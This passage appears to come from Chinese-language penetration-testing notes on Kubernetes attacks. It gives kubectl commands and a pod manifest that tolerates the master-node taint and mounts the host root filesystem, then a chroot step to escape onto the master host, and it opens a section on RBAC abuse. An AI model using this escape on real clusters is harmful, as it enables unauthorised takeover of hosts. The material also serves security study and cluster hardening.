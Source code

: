 成功在具有污点的Node工作节点上创建Pod

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665482711325-79d98786-432a-47e9-a5ed-025bbf2290b0.png)

利用污点与容忍性，部署恶意Pod逃逸到Master节点上

```plain
#查看Master节点上的污点
kubectl get nodes
kubectl describe node vm-0-2-centos | grep "taint" -i
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665482817005-5309820c-da9b-44ed-ae9a-6df1482a27c3.png)

```plain
#创建能容忍Master节点污点的恶意Pod
#pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: test-555
spec:
  tolerations:
    - key: node-role.kubernetes.io/master
      operator: Exists
      effect: NoSchedule
  containers:
  - name: test-555
    image: nginx
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
```

创建成功

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665482866512-7e360e28-b6e1-4c3e-9a53-be00bfa76968.png)

```plain
#切换bash，逃逸成功到Master主机上
cd /host
chroot ./ bash
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665482888275-d548429d-6003-47b1-abd1-3f5acd7a8c2e.png)



## RBAC滥用
<font style="color:rgb(34, 34, 34);">基于角色（Role）的访问控制（RBAC）是一种基于不同用户的角色来调节控制对计算机或网络资源的访问的方法。在RBAC滥用时，特定用户拥有了特殊权限，进一步利用可获取高权限ServiceAccount账号。</font>
